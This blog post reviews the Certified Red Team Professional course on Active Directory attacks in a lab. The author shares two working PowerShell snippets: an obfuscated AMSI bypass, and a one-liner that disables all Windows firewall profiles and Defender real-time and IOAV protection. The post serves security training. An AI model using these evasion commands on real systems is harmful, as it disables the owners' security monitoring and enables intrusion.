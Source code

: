```yaml
---
layout: post
title: "Certified Red Team Professional (CRTP) Review"
permalink: "crtp"
date: 13-11-2022
categories: Blog
---
```


Recently I passed the Certified Red Team Professional (CRTP) which was an excellent course provided by Pentester Academy. The course is all focused on Active Directory hacking but instead of using Kali we instead use a Windows box to priv esc and move around the AD network with the help of PS Remoting mainly. The best part about this course is we are working in an environment with MS Defender and AMSI scanning in place so although being stealthy (aka Red Teaming) isn't a requirement it is necessary to bypass these restrictions.

The course consists of the following sections but to be honest for the exam the 'Defenses' topics aren't required:

* Active Directory Enumeration
* Local Privilege Escalation
* Domain Privilege Escalation
* Domain Persistence and Dominance
* Cross Trust Attacks
* Forest Persistence and Dominance
* Defenses – Monitoring
* Defenses and bypass – Architecture and Work Culture Changes
* Defenses and Bypass – Deception
* Defenses and Bypass – PowerShell

One of the key things when going from box to box I learned is how to disable AMSI and also open up the firewall and disable real-time monitoring. These were the two Powershell commands I ran each time which might be useful for others:

**Bypass AMSI:**
{% highlight powershell %}
S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
{% endhighlight %}

**Disable Multiple Things:**


{% highlight powershell %}
Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False;Set-MpPreference -DisableIOAVProtection $true;Set-MpPreference -DisableRealtimeMonitoring $true
{% endhighlight %}




